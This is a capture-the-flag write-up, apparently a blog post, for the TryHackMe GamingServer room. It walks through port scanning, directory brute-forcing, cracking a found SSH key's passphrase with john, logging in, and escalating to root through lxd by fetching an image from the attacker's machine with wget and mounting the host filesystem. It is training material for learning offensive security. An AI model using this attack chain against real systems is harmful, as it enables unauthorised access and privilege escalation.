 ```yaml
---
layout: post
title:  "GamingServer tryhackme room writeup"
date:   2020-07-23 21:03:36 +0530
categories: CTF Writeups
---
```



writeup of the room GamingServer in TryHackMe

first start by doing a port scan

```bash
rustscan $IP
```
results:
```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
then start start dirbuster or gobuster to search for hidden files

```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
you will then find an interesting folder called "/secret" 

![](https://i.imgur.com/dvouO8n.png)

that contains a ssh key, download it

after you downloaded that key create a new hash file using ssh2john
```python
python ssh2john.py SecretKey > id_rsa.hash
```
and then crack it using john and rockyou wordlist
```python
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
results
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
1g 0:00:00:12 DONE (2020-08-30 22:24) 0.08278g/s 1187Kp/s 1187Kc/s 1187KC/s *7¡Vamos!
Session completed
```
then i found a user that can be used for a ssh connection on the website source code

in the bottom line of : https://$IP/index.html

![](https://i.imgur.com/AkvBtg2.png)

as you can see there is a user called john

connect to the server throught ssh
```bash
ssh john@$IP -i ./SecretKey
```
enter the passphrase and you logged in as john

![](https://i.imgur.com/fvRhWhv.png)

now get the user flag
```bash
cat user.txt
a****************e
```
after searching and looking in the machine i found an interesting service called lxd(Linux Containers) owned by root and that can be used by anyone,

locally clone that repo and run the other commands
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
then start a simple web server
```bash
python -m SimpleHTTPServer
```
then download the files you just downloaded locally
```bash
cd /tmp
wget http://$LHOST:8000/alpine-v3.12-x86_64-20200830_2354.tar.gz
```
replace $LHOST with your local ip address (run "ip addr" to see it)

import the image by running: 
```bash
lxc image import ./alpine-v3.12-x86_64-20200830_2354.tar.gz --alias myimage
```
then spawn a root shell by running this list of commands
```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
whoami
```
now get the root flag 
```bash
cat mnt/root/root/flag.txt
2************c
```
if you don't get your root shell or it's not working try following this [guide](https://www.hackingarticles.in/lxd-privilege-escalation/) for privilege escalation about lxd
